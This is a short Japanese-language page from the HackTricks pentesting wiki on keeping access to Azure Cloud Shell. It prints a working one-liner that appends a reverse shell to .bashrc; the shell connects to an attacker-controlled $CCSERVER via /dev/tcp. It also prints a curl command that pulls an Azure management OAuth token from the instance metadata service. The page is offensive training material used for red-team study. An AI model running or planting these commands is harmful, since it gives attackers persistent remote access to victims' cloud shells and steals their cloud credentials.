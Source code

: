 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shellは、永続的なストレージと自動認証を備えたAzureリソースを管理するためのコマンドラインアクセスを提供します。攻撃者は、永続的なホームディレクトリにバックドアを配置することでこれを悪用できます：

* **Persistent Storage**: Azure Cloud ShellのホームディレクトリはAzureファイル共有にマウントされており、セッションが終了しても保持されます。
* **Startup Scripts**: .bashrcのようなファイルは、各セッションの開始時に自動的に実行され、クラウドシェルが起動する際に永続的な実行を可能にします。

Example backdoor in .bashrc:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
このバックドアは、ユーザーによってクラウドシェルが終了した後でも、5分間コマンドを実行できます。

さらに、インスタンスの詳細とトークンのためにAzureのメタデータサービスをクエリします:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{{#include ../../../banners/hacktricks-training.md}}
